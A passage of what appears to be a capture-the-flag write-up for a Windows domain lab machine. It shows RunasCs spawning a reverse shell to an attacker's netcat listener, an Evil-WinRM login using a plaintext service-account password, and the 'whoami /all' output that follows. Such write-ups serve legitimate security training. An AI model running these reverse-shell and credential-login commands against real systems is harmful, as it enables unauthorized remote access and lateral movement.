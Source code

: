 - [https://github.com/antonioCoco/RunasCs](https://github.com/antonioCoco/RunasCs)

```c
C:\temp>RunasCs.exe winrm_svc "WinRm@$svc^!^P" cmd.exe -r 10.10.14.72:8999
RunasCs.exe winrm_svc "WinRm@$svc^!^P" cmd.exe -r 10.10.14.72:8999
[*] Warning: The logon for user 'winrm_svc' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-3e85374$\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 4932 created in background.
```

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8999
listening on [any] 8999 ...
connect to [10.10.14.72] from (UNKNOWN) [10.129.223.154] 59172
Microsoft Windows [Version 10.0.17763.6189]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

Alternatively `Evil-WinRM` worked too like the username indicated.

```c
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i dc01.infiltrator.htb -u 'winrm_svc' -p 'WinRm@$svc^!^P'   
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_svc\Documents>
```

## Pivoting (winrm_svc)

After the basic `whoami /all` check we headed back to the `Output Messenger` application.

```c
C:\Windows\system32>whoami /all
whoami /all

USER INFORMATION
----------------

User Name             SID                                           
===================== ==============================================
infiltrator\winrm_svc S-1-5-21-2606098828-3734741516-3625406802-1601


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes                                        
========================================== ================ ============================================== ==================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
```